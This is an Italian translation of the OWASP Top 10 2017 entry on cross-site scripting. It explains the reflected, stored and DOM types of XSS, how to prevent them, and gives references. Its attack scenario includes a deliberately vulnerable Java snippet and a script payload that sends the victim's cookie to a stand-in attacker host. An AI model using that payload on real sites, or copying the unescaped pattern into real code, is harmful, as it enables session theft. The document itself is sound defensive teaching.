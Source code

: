 # A7:2017 Cross-Site Scripting (XSS)

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Access Lvl : Exploitability 3 | Prevalence 3 : Detectability 3 | Technical 2 : Business |
| I tool automatici possono identificare e sfruttare tutte le 3 forme di XSS, e framework per lo sfruttamento delle falle sono liberamente scaricabili. | XSS è la seconda falla per diffusione fra le OWASP Top 10 ed è identificabile in circa i 2/3 delle applicazioni. Strumenti automatici possono identificare automaticamente falle XSS, soprattutto in tecnologie mature come PHP, J2EE / JSP e ASP.NET. | L'impatto di XSS è moderato per gli XSS DOM e reflected, e grave per gli stored XSS, con esecuzione di codice remoto, furto di credenziali, sessioni o installazione di codice malevolo direttamente sul browser della vittima. | 

## L'Applicazione è vulnerabile?

Ci sono 3 tipi di XSS; generalmente attaccano il browser dell'utente:

* **Reflected XSS**: L'API o l'applicazione include nell'output HTML parte dell input utente senza validarlo o pulirlo. Un attacco di successo può consentire all'attaccante di eseguire HTML e codice Javascript nel browser della vittima. L'utente finirà per interagire pagine malevole definite dall'attaccante, come siti di raccolta dati, annunci o simili.
* **Stored XSS**: L'applicazione o l'API salva input utente non sanato che verrà poi rivisto da un altro utente o un amministratore. Il rischio dovuto a falle di tipo Stored XSS è spesso considerato di livello alto o critico.
* **DOM XSS**: Framework JavaScript, single-page applications e API che includono dinamicamente dati potenzialmente controllabili da un attaccante sono vulnerabili ai DOM XSS. In linea ideale l'applicazione non dovrebbe inviare dati controllabili da un attaccante a librerie/API JavaScript non sicure.

Gli attacchi XSS tipici includono il furto di sessioni, il furto di identità, l'aggiramento dell'autenticazione a più fattori, la sostituzione di parti del DOM o il defacement (come ad esempio falsi pannelli di login), attacchi al browser dell'utente come scaricamento di software, key logging, e altri attacchi lato client.

## Prevenzione

Per prevenire gli attacchi XSS è necessario separare dati non fidati dal contenuto attivo del browser. Ciò può essere ottenuto in vari modi: 

* Utilizzare framework che evitano XSS per design, ad esempio le ultime versioni di Ruby on Rails, React JS. Imparare i limiti della protezione XSS di ogni framework e gestire in maniera appropriata i casi non coperti.
* Pulire i dati di richieste HTTP non fidate basandosi sul contesto dell'output HTML (body, attribute, JavaScript, CSS o URL) evita le falle di tipo Reflected o Stored. Il [OWASP  Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) fornisce dettagli sulle tecniche di pulizia dei dati.
* Applicare un encoding context-sensitive quando si modifica il documento lato client ostacola gli attacchi DOM XSS. Quando non si può evitare, tecniche di pulizia del contenuto simili possono essere applicate alle API del browser, come descitto in [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).
* Attivare una [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) come strato di controllo contro gli XSS in una strategia defense-in-depth. E' efficace quando altre vulnerabilità consentono di inserire codice malevolo attraverso l'inclusione di un file locale (ad esempio sostituzioni di file con path traversal or librerie vulnerabili da fonti consentite). 

## Scenari esempio di attacco

**Scenario #1**: L'applicazione usa dati non sicuri nel costuire questo snippet HTML senza validarli o pulirli:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
L'attaccante modifica il parametro ‘CC’ nel browser in:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Questo attacco comporta che l'ID di sessione della vittima venga inviato al sito dell'attaccante, consentendo così il furto della sessione utente.

**Note**: Gli attaccanti possono usare XSS per aggirare ogni difesa automatica contro la Cross-Site Request Forgery (CSRF) utilizzata dall'applicazione.

## Riferimenti

### OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Esterno

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
